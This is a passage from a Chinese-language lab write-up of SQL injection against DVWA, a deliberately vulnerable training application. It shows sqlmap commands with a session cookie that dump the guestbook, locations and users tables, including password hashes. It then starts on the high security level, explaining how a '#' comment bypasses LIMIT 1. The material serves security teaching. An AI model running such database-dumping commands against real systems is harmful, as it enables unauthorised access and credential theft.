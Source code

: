 `sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T guestbook -C "comment,comment_id,name" --dump`

![image-20211102220848554](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951099.png)



###### 查看表locations中的列和数据

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T locations --columns`

![image-20211102221057165](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951273.png)

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T locations -C "latitude,longtitude,name" --dump`

![image-20211102221124144](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951508.png)



###### 查看表user中的列和数据

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T users --columns` 

![image-20211102221153863](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951782.png)

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T users -C "user_id,user,password,first_name,last_name,avatar,last_login,failed_login" --dump`

![image-20211101154850324](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951756.png)



------

#### 【High-手工注入】

##### ①查看源码

![image-20211101200035395](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951022.png)

![image-20211101200217021](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951190.png)

High中前端用户提交的id值是首先传入到服务端存储到Session文件中，然后再调用给其他需要该id的地方使用。High相较于Medium，去掉了对特殊字符的转义，但在SQL查询语句中添加了LIMIT 1，以此来控制只输出一个结果，但是可以通过`#`注释绕过。所以手工注入的方法和前两种级别的差不多，接下来简略介绍流程。

##### ②简略过程

###### 判断注入类型
